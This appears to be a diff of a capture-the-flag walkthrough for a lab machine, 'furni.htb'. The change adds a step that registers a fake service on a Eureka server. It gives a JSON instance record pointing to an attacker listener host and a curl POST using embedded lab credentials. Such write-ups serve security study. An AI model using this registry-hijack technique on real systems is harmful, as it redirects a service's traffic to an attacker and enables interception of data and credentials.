

Before and after one commit to L3B0W5K1/ctf-walkthroughs, a Markdown page: posts/post-0.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/post-0.md
+++ b/posts/post-0.md
@@ -136,4 +136,33 @@
 ...
 ```
 
-Thus we will create a fake service on the instance. This can be done with curl sending a POST request.
+Thus we will create a fake service on the instance. This can be done with curl sending a POST request. For that we need to send some data to eureka. In the following format:
+
+```
+{
+  "instance": {
+    "instanceId": "test",
+    "hostName": "LISTENER_IP",
+    "app": "USER-MANAGEMENT-SERVICE",
+    "ipAddr": "LISTENER_IP",
+    "vipAddress": "USER-MANAGEMENT-SERVICE",
+    "port": {
+      "$": 80,
+      "@enabled": true
+    },
+    "dataCenterInfo": {
+      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
+      "name": "MyOwn"
+    },
+    "status": "UP"
+  }
+}
+```
+
+Put the info in a json-file to go with the curl post:
+
+```curl -H 'Content-Type: application/json' -d @info.json 'http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE'```
+
+Running this we can see that the service "test" is registered on the eureka server:
+
+<img width="936" height="314" alt="Screenshot 2025-09-03 at 03 54 07" src="https://github.com/user-attachments/assets/7045132e-ed35-4e76-b7b9-c4b7cfe0e9fa" />
````
